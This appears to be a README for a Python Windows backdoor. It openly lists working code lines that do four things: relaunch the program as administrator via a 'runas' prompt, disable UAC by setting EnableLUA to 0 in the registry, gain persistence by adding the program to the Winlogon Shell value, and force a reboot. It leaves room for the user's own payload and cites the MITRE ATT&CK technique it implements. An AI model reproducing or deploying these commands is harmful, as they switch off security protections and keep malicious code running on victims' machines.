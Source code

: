 # This is a simple backdoor
It has no payload, Just deUAC mode and adding persistence. Please See below
<br><br>
### Functions
* Auto run as admin

<code>shell.ShellExecuteEx(lpVerb='runas', lpFile=sys.executable, lpParameters=params)</code>
<br><br>
* de UAC Mode
 
<code>os.system('reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f')</code>
<br><br>
* Add Persistance

<code>os.system(f'reg.exe ADD "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /f /v Shell /t REG_SZ /d "explorer.exe, {ROOT_PATH}\\{PROG_NAME}"')</code>
<br><br>
* Restart Computer for deUAC

<code>os.system('shutdown /r /f /t 1')</code>
<br><br>

* And

<code>With your Payload</code>
<br><br>
### References
https://attack.mitre.org/techniques/T1547/004/